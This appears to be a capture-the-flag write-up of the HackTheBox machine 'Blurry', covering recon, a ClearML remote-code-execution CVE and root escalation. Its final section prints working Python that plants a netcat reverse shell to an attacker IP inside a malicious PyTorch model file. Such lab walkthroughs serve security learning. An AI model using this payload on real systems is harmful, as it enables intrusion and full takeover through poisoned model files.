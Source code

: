 ```yaml
---
title: Blurry
tags:
  - HackTheBox
  - Medium
  - ClearML
  - CVE
  - Python-Vulnerability
  - Linux
date: 2024-07-04T00:00:00Z
---
```

![](Pasted%20image%2020240904165148.png)
## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.19 blurry.htb" | sudo tee -a /etc/hosts
```

Then I performed an Nmap scan:

```shell
nmap -sC -T4 -p- blurry.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http
|_http-title: ClearML
```

As seen, a redirect is done to `app.blurry.htb`, so I added to the hosts file. Afterwards I decided to take a look at the webpage:

![](Pasted%20image%2020240904170144.png)

## Weaponization

I decided to search for "*ClearML cve*" on the Internet and found the following RCE: [CVE-2024-24590](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

## Exploitation

First, I logged in as gitblanc, and look up for projects. I noticed a project called **Black Swan**:

![](Pasted%20image%2020240904171314.png)

- I installed ClearML on terminal with: `sudo pip install clearml`
- Then I ran the ClearML setup script: `clearml-init`
- I generated new credentials for configuration:

![](Pasted%20image%2020240904174414.png)

![](Pasted%20image%2020240904172733.png)

- I got some errors related to subdomain `api.blurry.htb` and `files.blurry.htb`, so I added the new domains.

> We've got a reverse shell :D

![](Pasted%20image%2020240904174859.png)

Stabilize it with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

> We've got user flag :D

![](Pasted%20image%2020240904175101.png)

## Privilege Escalation

I'll upload linpeas and run it:

![](Pasted%20image%2020240904175417.png)

![](Pasted%20image%2020240904175603.png)

If we run `sudo -l`:

![](Pasted%20image%2020240904180509.png)

So I investigated a bit and found this script to gain root privileges by generating a malicious model [pytorch-script](https://github.com/v4resk/red-book/blob/main/redteam/privilege-escalation/linux/script-exploits/python/pytorch-models-pth-files-code-execution.md)

- I had to install **torch**: `sudo pip3 install torch`

```python
# generate_model.py
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
	def __init__(self):
		super(EvilModel, self).__init__()
		self.dense = nn.Linear(10, 50)
	
	def forward(self, evil):
		return self.dense(evil)
	
	def __reduce__(self):
		# Inject OS command.
		cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 777 >/tmp/f"
		return os.system, (cmd,)

# Save the model
evil_model = EvilModel()
torch.save(evil_model, 'evil.pth')
```

I executed the previous script on my machine, and uploaded 'evil.pth' to the victim machine. Then I moved it to `/modules` and executed:

```shell
sudo -u root /usr/bin/evaluate_model /models/evil.pth
```

> We are root now and got root flag! 

![](Pasted%20image%2020240904192225.png)

==Machine pwned==






